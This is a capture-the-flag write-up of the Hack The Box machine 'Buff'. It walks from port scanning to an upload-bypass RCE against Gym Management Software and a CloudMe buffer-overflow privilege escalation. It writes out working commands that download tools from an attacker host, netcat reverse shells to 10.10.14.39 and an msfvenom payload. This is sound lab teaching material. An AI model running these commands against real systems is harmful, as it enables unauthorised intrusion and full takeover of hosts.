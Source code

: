 ```yaml
---
layout: post
title:  "Hack The Box - Buff Writeup"
date:   2020-11-21 06:00:00
categories: Security CTF HTB"
author: Ryan
---
```


*[Hack The Box](https://hackthebox.eu) is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.*  
![HTB - Buff](../images/HTB-Buff/Header.png)

Buff is an Easy level Windows machine. The box statistics show us that we will be focusing heavily on existing CVEs, while working on enumeration skills in a somewhat realistic setup.  
![Buff Statistics](../images/HTB-Buff/Statistics.png)

## Information Gathering

#### Nmap:
By scanning the tartget IP with Nmap, we're able to find what ports are open, while fingerprinting the services running and their versions.  
`>> nmap -p7680,8080 -sC -sV -Pn  -oA Extracts/Buff 10.10.10.198`
![Nmap](../images/HTB-Buff/nmap.png)

### Mrb3n's Bro Hut
Navigating to [http://10.10.10.198:8080](http://10.10.10.198:8080) leads us to what appears to be a pretty basic gym website. We can see infomation around their offerings, pricing, and facilities. One piece of information that stands out can be seen on the [Contact](http://10.10.10.198:8080/contact.php) page.  
![Buff Statistics](../images/HTB-Buff/Information_Gathering_GymManagementSoftware.png)

## Foothold
By researching the Gym Management Software version 1.0, we can see there are a wide range of reported vulnerabilities. An [Unauthenticated RCE](https://www.exploit-db.com/exploits/48506) exploit can be found on Exploit-DB, and looks to be promising.

### Script Usage
After downloading the exploit to our machine, we can learn more about its usage with the following command:  
`>> python 48506.py`
![Shell Help](../images/HTB-Buff/Shell_Help.png)

### Running the Script
Passing in our target server, the exploit runs successfully, and we gain shell access.  
`>> python 48506.py http://10.10.10.198:8080/`
![Shell Run](../images/HTB-Buff/Shell_Run.png)

### How it works
Reading through the exploit, it appears that the Gym Management Software is missing user authentication on its file upload at `upload.php`. Combining this with a few tricks to bypass any file upload restrictions, and we're able to achieve a basic web shell.

File Restriction Bypasses:
* **Filename.php.png**: If the server is only checking the last file extension, we're able to successfully pass the check by appending ".png" to the file name.
* **image/png**: By setting the content-type to image/png, we're telling the server that the file is an image, nothing suspicious to see here.
* **Magic Bytes**: In case the server decides to check the content of the file, rather than just the filename and content-type, we're passing it a series of "magic bytes" which act as a file signature. The bytes sent in this case, `\x89\x50\x4e\x47\x0d\x0a\x1a`, represent a PNG file.  
![Shell Code 1](../images/HTB-Buff/Shell_Code_1.png)

## Enumeration
### User Flag
We appear to be running as the user `shaun`. Let's see if we can get the User Flag.  
`>> type C:\Users\shaun\Desktop\user.txt`
![User Flag](../images/HTB-Buff/User_Flag.png)

### Upgrade Shell
Before we get too far into the box, let's upgrade our shell using Netcat. The current shell is very basic and unable to do many of the tasks we may need when enumerating or trying to escalate privileges later.

Set up local server to get nc.exe onto the target box. Make sure that you've got a local copy of nc.exe in whatever directory you're hosting from.    
`>> python -m SimpleHTTPServer`

Downloading Netcat  
`>> powershell -c "Invoke-WebRequest -Uri '10.10.14.39:8000/nc64.exe' -OutFile 'nc.exe'"`

Setting up a listener on our local machine  
`>> nc -lvnp 3333`

Starting Netcat from taget box  
`>> .\nc.exe 10.10.14.39 3333 -e cmd.exe`

### Looking Around
Its possible that there are additional users to pivot to, lets check.  
`>> dir C:\Users`  
![User Enum](../images/HTB-Buff/Enum_Users.png)

With no additional users to work with, we can continue looking through shaun's directories  
`>> dir C:\Users\shaun\Downloads`  
![Downloads Enum](../images/HTB-Buff/Enum_Downloads.png)

CloudMe_1112.exe looks interesting. A little research shows it runs on port 8888 by default. Let's see if there's anything listening there.  
`>> netstat -a`  
![Network Enum](../images/HTB-Buff/Enum_Network.png)

By checking the list of processes running, we can see if CloudMe is already running and if it's process is owned by another user (perhaps Admin?).  
`>> tasklist /v`  
![Process Enum](../images/HTB-Buff/Enum_Process.png)

It looks like CloudMe is running as a user other than shaun. This is promising, since Administrator was the only other account we found.

## Privilege Escalation
If the name "Buff" wasn't enough of a hint of what's to come, you may be surprised to find that CloudMe 1.11.2 is vulnerable to a [Buffer Overflow](https://www.exploit-db.com/exploits/48389). It first requires us to get network access to the service running on port 8888. Let's get that set up with a small TCP/UDP Tunneling tool called [Chisel](https://github.com/jpillora/chisel).

### Tunnelling Port 8888
Start Listener on local machine over port 8800  
`>> sudo ./chisel server -p 8800 -reverse`

Download Chisel.exe to target box  
`>> powershell -c "Invoke-WebRequest -Uri '10.10.14.39:8000/chisel.exe' -OutFile 'chisel.exe'"`

Tunnel connection from target box to local machine  
`>> chisel.exe client 10.10.14.39:8800 R:8888:127.0.0.1:8888`

Result:  
![PrivEsc Tunnel](../images/HTB-Buff/PrivEsc_Tunnel.png)

### Generating Payload
The exploit we're using is currently set up to launch calc.exe. By using msfvenom, we can create a custom payload to do anything we want. Because the  
`>> msfvenom -a x86 -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.39 4444 -e cmd.exe' -b '\x00\x0A\x0D' -f python -v payload`  
![Payload Generation](../images/HTB-Buff/Payload_Generation.png)

### Execution
With our updated exploit, we'll be able to trigger the buffer overflow and 

Set up another listener on our local machine  
`>> nc -lvnp 4444`

Running completed exploit  
`>> python 48389.py`  
![Root Shell](../images/HTB-Buff/Shell_Root.png)

### Root Flag
With our administrative shell, we're able to retrieve the flag  
`>> type C:\Users\Administrator\Desktop\root.txt`  
![Root Flag](../images/HTB-Buff/Root_Flag.png)

